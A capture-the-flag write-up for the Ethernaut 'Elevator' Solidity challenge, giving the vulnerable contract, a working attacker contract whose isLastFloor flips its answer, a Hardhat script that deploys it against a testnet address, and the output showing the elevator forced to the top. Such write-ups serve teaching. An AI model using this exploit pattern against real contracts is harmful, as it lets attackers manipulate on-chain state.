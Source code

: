 ```yaml
---
title: Ethernaut Elevator
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Elevator challenge writeup
---
```


## Elevator

### Challenge

This elevator won't let you reach the top of your building. Right?

#### Things that might help:

* Sometimes solidity is not good at keeping promises.
* This `Elevator` expects to be used from a `Building`.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### Background

This is a very simple attack. We need to keep in mind that as long as we follow the `Building` `interface` then the `Elevator` can interact with our contract. However, since the `Building` contract is under the attackers control, there is no limit regarding what else the contract can do.

### Attack

Create a contract that satisfies the the `Building` `interface` but flips its response each time. Make sure that `isLastFloor` will respond `false` the first time, and `true` the second. This will make the first call that checks if its the top floor say its not, and the second that sets the `top` variable say it is.

* Create a contract that implements `isLastFloor` but returns `false` the first time and `true` the second
* Call the `goTo` function through the attacker controlled contract


#### ElevatorSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/Elevator.sol';

contract ElevatorSolve {

    Elevator elevatorContract;
    bool lastFloor;

    constructor(address payable _elevatorAddress) public {
        elevatorContract = Elevator(_elevatorAddress);
        lastFloor = true;
    }
    
    function isLastFloor(uint) external returns (bool) {
        lastFloor = !lastFloor;
        return lastFloor;
    }

    function goTo (uint _floor) public {
        elevatorContract.goTo(_floor);
    }

}
```

#### elevator-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    elevatorAddress = "0xe8cAdc8eA3A2D55907409cc18a3bB4a71f356379";
    contract = await ethers.getContractAt("Elevator", elevatorAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    ElevatorSolve = await ethers.getContractFactory("ElevatorSolve");
    elevatorSolve = await ElevatorSolve.deploy(contract.address);
    await elevatorSolve.deployed();

    console.log("Initial Floor: " + await contract.floor())
    console.log("Initial Top  : " + await contract.top())

    // call the goTo function to trigger the attack
    tx = await elevatorSolve.connect(account).goTo(2)
    receipt = await tx.wait()

    console.log("Floor        : " + await contract.floor())
    console.log("Top          : " + await contract.top())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/elevator-solve.js --network rinkeby
Initial Floor: 0
Initial Top  : false
Floor        : 2
Top          : true
```

### Success Message

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.
